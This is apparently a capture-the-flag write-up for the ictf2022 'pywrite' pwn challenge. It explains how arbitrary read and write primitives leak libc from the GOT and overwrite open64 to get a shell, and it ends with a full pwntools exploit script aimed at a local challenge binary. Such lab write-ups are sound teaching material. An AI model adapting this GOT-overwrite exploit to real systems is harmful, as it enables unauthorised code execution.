 ```python
    print(a)

```

```
[*] '/home/elmo/CTF/Archives/0722-ictf2022/pwn/pywrite/python3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    FORTIFY:  Enabled
```

As you can see from the source code, we are given a menu with 3 choices.

1. We are allowed to read any value in memory
2. We are allowed to write any value to memory
3. We are allowed to run *open()* on any input we like

This challenge was trivial. 

We could obtain **libc base address** by making a read to the **GOT**

We could then write **libc system address** to **open64@plt.got** and then run **open("/bin/sh")** with choice 3 and get a shell!

### Exploit Script

```python

from pwn import *

context.binary = elf = ELF("./python3")
libc = ELF("./libc.so.6")
p = process(["./python3", "./vuln.py"])

p.sendlineafter(b"> ", "1")
p.sendlineafter(b"where? ", str(0x8f6310))
leak = int(p.recvline())
libc.address = leak - libc.sym.malloc

p.sendlineafter(b"> ", "2")
p.sendlineafter(b"what? ", str(libc.address + 0xe6c7e))
p.sendlineafter(b"where? ", str(elf.got.open64))

p.sendlineafter(b"> ", "3")
p.sendlineafter(b"what????? ", "cat flag.txt")

p.interactive()
```
